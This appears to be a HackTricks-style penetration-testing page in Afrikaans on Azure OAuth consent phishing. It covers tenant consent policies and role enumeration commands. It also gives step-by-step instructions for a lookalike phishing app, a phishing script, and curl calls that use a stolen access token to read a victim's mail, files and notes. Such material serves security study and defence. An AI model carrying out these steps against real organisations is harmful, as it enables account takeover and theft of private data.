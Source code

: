 # Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## OAuth App Phishing

**Azure-toepassings** is geconfigureer met die toestemmings wat hulle sal kan gebruik wanneer 'n gebruiker die toepassing goedkeur (soos om die gids te enumereer, toegang tot lêers te verkry, of ander aksies uit te voer). Let daarop dat die toepassing namens die gebruiker sal optree, so selfs al kan die app om administratiewe toestemmings vra, as die **gebruiker wat dit goedkeur nie daardie toestemming het nie**, sal die app **nie in staat wees om administratiewe aksies uit te voer nie**.

### App goedkeurings toestemmings

Standaard kan enige **gebruiker toestemming aan apps gee**, alhoewel dit geconfigureer kan word sodat gebruikers slegs toestemming kan gee aan **apps van geverifieerde uitgewers vir geselekteerde toestemmings** of om selfs **die toestemming te verwyder** vir gebruikers om toestemming aan toepassings te gee.

<figure><img src="../../../images/image.png" alt=""><figcaption></figcaption></figure>

As gebruikers nie toestemming kan gee nie, kan **administrateurs** soos `GA`, `Application Administrator` of `Cloud Application` `Administrator` **die toepassings goedkeur** wat gebruikers sal kan gebruik.

Boonop, as gebruikers slegs toestemming kan gee aan apps wat **lae risiko** toestemmings gebruik, is hierdie toestemmings standaard **openid**, **profile**, **email**, **User.Read** en **offline_access**, alhoewel dit moontlik is om **meer** aan hierdie lys toe te voeg.

En as hulle toestemming kan gee aan alle apps, kan hulle toestemming gee aan alle apps.

### 2 Tipes aanvalle

- **Ongedokumenteer**: Van 'n eksterne rekening 'n toepassing met die **lae risiko toestemmings** `User.Read` en `User.ReadBasic.All` skep, phish 'n gebruiker, en jy sal in staat wees om gidsinligting te verkry.
- Dit vereis dat die gephishde gebruiker **in staat is om OAuth-apps van eksterne huurders te aanvaar**
- As die gephishde gebruiker 'n admin is wat **enige app met enige toestemmings kan goedkeur**, kan die toepassing ook **privilegieerde toestemmings aan vra**
- **Gegeldig**: Nadat 'n prinsiep met genoeg voorregte gecompromitteer is, **skep 'n toepassing binne die rekening** en **phish** 'n paar **privilegieerde** gebruikers wat privilegieerde OAuth-toestemmings kan aanvaar.
- In hierdie geval kan jy reeds toegang tot die inligting van die gids verkry, so die toestemming `User.ReadBasic.All` is nie meer interessant nie.
- Jy is waarskynlik geïnteresseerd in **toestemmings wat 'n admin moet toeken**, omdat 'n gewone gebruiker nie enige toestemming aan OAuth-apps kan gee nie, daarom moet jy **slegs daardie gebruikers phish** (meer oor watter rolle/toestemmings hierdie voorregte toeken later).

### Gebruikers mag toestemming gee

Let daarop dat jy hierdie opdrag vanaf 'n gebruiker binne die huurder moet uitvoer, jy kan nie hierdie konfigurasie van 'n huurder vanaf 'n eksterne een vind nie. Die volgende cli kan jou help om die gebruikers se toestemmings te verstaan:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
- Gebruikers kan toestemming gee vir alle toepassings: As jy binne **`permissionGrantPoliciesAssigned`** kan vind: `ManagePermissionGrantsForSelf.microsoft-user-default-legacy` dan kan gebruikers elke toepassing aanvaar.
- Gebruikers kan toestemming gee vir toepassings van geverifieerde uitgewers of jou organisasie, maar net vir die toestemmings wat jy kies: As jy binne **`permissionGrantPoliciesAssigned`** kan vind: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` dan kan gebruikers elke toepassing aanvaar.
- **Deaktiveer gebruikers toestemming**: As jy binne **`permissionGrantPoliciesAssigned`** kan net vind: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` en `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` dan kan gebruikers nie enige toestemming gee nie.

Dit is moontlik om die betekenis van elke van die kommentaarbeleide te vind in:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
### **Toepassing Administrateurs**

Kontroleer gebruikers wat as toepassing administrateurs beskou word (kan nuwe toepassings aanvaar):
```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```
## **Aanvalstroom Oorsig**

Die aanval behels verskeie stappe wat 'n generiese maatskappy teiken. Hier is hoe dit mag ontvou:

1. **Domeinregistrasie en Aansoek Hosing**: Die aanvaller registreer 'n domein wat op 'n betroubare webwerf lyk, byvoorbeeld, "safedomainlogin.com". Onder hierdie domein word 'n subdomein geskep (bv. "companyname.safedomainlogin.com") om 'n aansoek te huisves wat ontwerp is om magtigingskode te vang en toegangstokens aan te vra.
2. **Aansoekregistrasie in Azure AD**: Die aanvaller registreer dan 'n Multi-Tenant Aansoek in hul Azure AD Tenant, en noem dit na die teikenmaatskappy om wettig te lyk. Hulle konfigureer die aansoek se Oorgangs-URL om na die subdomein te wys wat die kwaadwillige aansoek huisves.
3. **Instelling van Toestemmings**: Die aanvaller stel die aansoek op met verskeie API-toestemmings (bv. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). Hierdie toestemmings, sodra dit deur die gebruiker toegestaan is, laat die aanvaller toe om sensitiewe inligting namens die gebruiker te onttrek.
4. **Verspreiding van Kwaadwillige Skakels**: Die aanvaller skep 'n skakel wat die kliënt-id van die kwaadwillige aansoek bevat en deel dit met teikengebruikers, wat hulle mislei om toestemming te gee.

## Voorbeeldaanval

1. Registreer 'n **nuwe aansoek**. Dit kan slegs vir die huidige gids wees as jy 'n gebruiker van die aangevalde gids gebruik of vir enige gids as dit 'n eksterne aanval is (soos in die volgende beeld).
1. Stel ook die **oorgangs-URI** in op die verwagte URL waar jy die kode wil ontvang om die tokens te kry (`http://localhost:8000/callback` per standaard).

<figure><img src="../../../images/image (1).png" alt=""><figcaption></figcaption></figure>

2. Skep dan 'n aansoekgeheim:

<figure><img src="../../../images/image (2).png" alt=""><figcaption></figcaption></figure>

3. Kies API-toestemmings (bv. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)

<figure><img src="../../../images/image (3).png" alt=""><figcaption></figcaption></figure>

4. **Voer die webblad uit (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)** wat om die toestemmings vra:
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
5. **Stuur die URL na die slagoffer**
1. In hierdie geval `http://localhost:8000`
6. **Slagoffers** moet die **prompt aanvaar:**

<figure><img src="../../../images/image (4).png" alt=""><figcaption></figcaption></figure>

7. Gebruik die **toegangsteken om toegang te verkry tot die aangevraagde toestemmings**:
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## Ander Gereedskap

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** Gaan na [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) om te leer hoe om dit te konfigureer.
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## Post-Uitbuiting

### Phishing Post-Uitbuiting

Afhangende van die versoekte toestemmings mag jy in staat wees om **verskillende data van die huurder te bekom** (lys gebruikers, groepe... of selfs instellings te wysig) en **inligting van die gebruiker** (lêers, notas, e-posse...). Dan kan jy hierdie toestemmings gebruik om daardie aksies uit te voer.

### Aansoek Post Uitbuiting

Gaan die Aansoeke en Diens Prinsipaal afdelings van die bladsy na:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## Verwysings

- [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{{#include ../../../banners/hacktricks-training.md}}
